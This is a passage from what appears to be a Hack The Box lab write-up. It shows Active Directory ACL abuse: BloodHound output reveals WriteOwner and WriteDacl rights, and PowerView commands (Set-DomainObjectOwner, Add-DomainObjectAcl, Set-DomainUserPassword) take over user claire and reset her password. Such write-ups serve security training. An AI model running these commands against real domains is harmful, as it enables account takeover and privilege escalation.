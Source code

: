 Here we can see that, **tom** has the *WriteOwner* permission over **claire** which means we can change the object owner to take over the object. Basically, we own **claire**. Let's see what this user can do.


```bash
PS C:\Users\tom\Desktop\AD Audit\BloodHound\Ingestors> Get-Content .\acls.csv | Select-String -Pattern claire                   

...[snip]...

"Backup_Admins@HTB.LOCAL","GROUP","","claire@HTB.LOCAL","USER","WriteDacl","","AccessAllowed","False"                           
```

That's really interesting, **claire** has *WriteDacl* privileges over **Backup_Admins** which means we could modify object's ACEs and take over  **Backup_Admins**.

Let's abuse the *WriteOwner* permission **tom** has over **claire**. Here, we used the *PowerView.ps1* PowerShell script that was already present on the machine. As a reminder, [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) is a tool that helps to gain network situational awareness on Windows domains, but it also has some interesting functionality.

```bash
PS C:\Users\tom\Desktop\AD Audit\BloodHound\Ingestors> cd .. 
PS C:\Users\tom\Desktop\AD Audit\BloodHound> dir                                                                                


    Directory: C:\Users\tom\Desktop\AD Audit\BloodHound                                                                         


Mode                LastWriteTime     Length Name                                                                               
----                -------------     ------ ----                                                                               
d----         5/29/2018   8:57 PM            Ingestors                                                                          
-a---        10/30/2017  10:15 PM     769587 PowerView.ps1

```

Here, the *PowerView.ps1* module is imported in our PowerShell session. Using [Set-DomainObjectOwner](https://powersploit.readthedocs.io/en/latest/Recon/Set-DomainObjectOwner/) we can modify the owner of **claire** and set it to **tom**. Given we have full control over **claire**, we can use the [Add-DomainObjectAcl](https://powersploit.readthedocs.io/en/latest/Recon/Add-DomainObjectAcl/) command to allow **tom** to reset claire's password.

Finally, we can use the [Set-DomainUserPassword](https://powersploit.readthedocs.io/en/latest/Recon/Set-DomainUserPassword/) command to modify claire's password.

```bash
PS C:\Users\tom\Desktop\AD Audit\BloodHound> Import-Module .\PowerView.ps1
PS C:\Users\tom\Desktop\AD Audit\BloodHound> Set-DomainObjectOwner -Identity claire -OwnerIdentity tom
PS C:\Users\tom\Desktop\AD Audit\BloodHound> Add-DomainObjectAcl -TargetIdentity claire -PrincipalIdentity tom -Rights ResetPassword
PS C:\Users\tom\Desktop\AD Audit\BloodHound> $creds = ConvertTo-SecureString 'Qwerty123!' -AsPlainText -Force
PS C:\Users\tom\Desktop\AD Audit\BloodHound> Set-DomainUserPassword -identity claire -accountpassword $creds -Verbose           
VERBOSE: [Set-DomainUserPassword] Attempting to set the password for user 'claire'                                              
VERBOSE: [Set-DomainUserPassword] Password for user 'claire' successfully reset   
```
